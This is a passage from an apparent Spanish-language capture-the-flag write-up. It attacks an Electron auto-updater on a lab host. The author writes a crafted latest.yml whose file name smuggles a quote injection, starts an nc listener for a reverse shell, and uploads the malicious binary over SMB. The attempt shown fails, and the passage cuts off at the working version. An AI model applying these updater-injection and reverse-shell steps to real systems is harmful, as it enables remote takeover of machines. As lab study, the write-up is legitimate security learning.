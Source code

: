 Y por último el archivo que estará buscando el servidor.

**latest.yml:**

*(Una de las tantas pruebas)*

```yml
version: 1.2.3
files:
  - url: try';try\'now.exe;'now.exe
  sha512: 0Wxg/xq3XPmrHevFPBwR4aSmnc8b+5gaKB9HuEAZcBXghS2MaDblK3lRPOpCEMiqe5wFI2ZxMQ7Jc7M2JSTF8Q==
  size: 73802
path: try';try\'now.exe;'now.exe
sha512: 0Wxg/xq3XPmrHevFPBwR4aSmnc8b+5gaKB9HuEAZcBXghS2MaDblK3lRPOpCEMiqe5wFI2ZxMQ7Jc7M2JSTF8Q==
releaseDate: '2019-11-20T11:17:02.627Z'
```

Y con esto ya tendriamos los 3 pasos, el caso es que el script leeria el archivo `latest.yml`, daria error en `try'` y en teoria deberia ejecutar `try\'now.exe`, o sea, nuestro payload con la Reverse Shell...

Lo unico que nos quedaria hacer seria, subir el binario `try'now.exe` y el objeto `latest.yml` a alguna de las carpetas `client` y ver si pasa algo (: ***Spoiler: No pasa nada :P***

Pero antes, nos ponemos en escucha con ayuda de **netcat** por el puerto que indicamos en el binario malicioso: 

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

Ahora si:

```bash
❱ smbclient //10.10.10.237/Software_Updates -U 'null'
Enter WORKGROUP\null's password: 
Try "help" to get a list of possible commands.
smb: \> cd client2
```

```bash
smb: \client2\> put try'now.exe 
putting file try'now.exe as \client2\try'now.exe (43,3 kb/s) (average 43,3 kb/s)
smb: \client2\> put latest.yml 
putting file latest.yml as \client2\latest.yml (0,4 kb/s) (average 34,5 kb/s)
```

Entiendo que generaría el error y en la misma ruta en la que esta el objeto `latest.yml` buscara el binario `try'now.exe` y lo ejecutara...

Pues nada, probé y probé cosas, cambie la ruta, me invente otras, jugué para en tal caso diera error ejecutara despues `certutil.exe ...`, pero tampoco, bueno, varias cositas hice, hasta que por fin probé algo que funciono...

...

### (EL GOOD) <u>latest.yml</u>, bin malicioso y hash [⌖](#expl-yml-bin-hash) {#expl-yml-bin-hash}
